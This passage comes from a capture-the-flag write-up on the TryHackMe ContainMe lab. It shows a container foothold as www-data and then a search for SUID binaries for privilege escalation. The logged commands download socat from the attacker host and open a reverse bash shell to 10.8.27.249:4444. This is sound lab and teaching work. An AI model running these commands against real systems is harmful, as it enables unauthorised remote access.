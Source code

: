 I'm `www-data`! And we're **inside a container** (`172.16.20.2` usually is a container IP).

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

www-data@host1:/var/www/html$ wget http://10.8.27.249/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.8.27.249:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/ContainMe]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/10/07 09:02:47 socat[61537] N opening character device "/dev/pts/2" for reading and writing
2022/10/07 09:02:47 socat[61537] N listening on AF=2 0.0.0.0:4444
                                                                 2022/10/07 09:03:04 socat[61537] N accepting connection from AF=2 10.10.253.177:42876 on AF=2 10.8.27.249:4444
                                                                    2022/10/07 09:03:04 socat[61537] N starting data transfer loop with FDs [5,5] and [7,7]
                                                root@host1:/root# 
www-data@host1:/var/www/html$ stty rows 22 columns 107
www-data@host1:/var/www/html$ export TERM=xterm-256color
www-data@host1:/var/www/html$ ^C
www-data@host1:/var/www/html$ 
```

## Privilege Escalation

### Containerhost1 www-data to container host1 root

**SUID sticky bit binary:**
```
www-data@host1:/var/www/html$ find / -perm -4000 2>/dev/null
[...]
/usr/share/man/zh_TW/crypt

www-data@host1:/var/www/html$ ls -lah /usr/share/man/zh_TW/crypt
-rwsr-xr-x  1 root root 351K Jul 30  2021 crypt
```

**Found a weird binary that has SUID sticky bit and owned by root:**

Let's analyze this binary!!

```
www-data@host1:/var/www/html$ cd /usr/share/man/zh_TW/

www-data@host1:/usr/share/man/zh_TW$ file crypt
bash: file: command not found

www-data@host1:/usr/share/man/zh_TW$ strings crypt
bash: strings: command not found
```
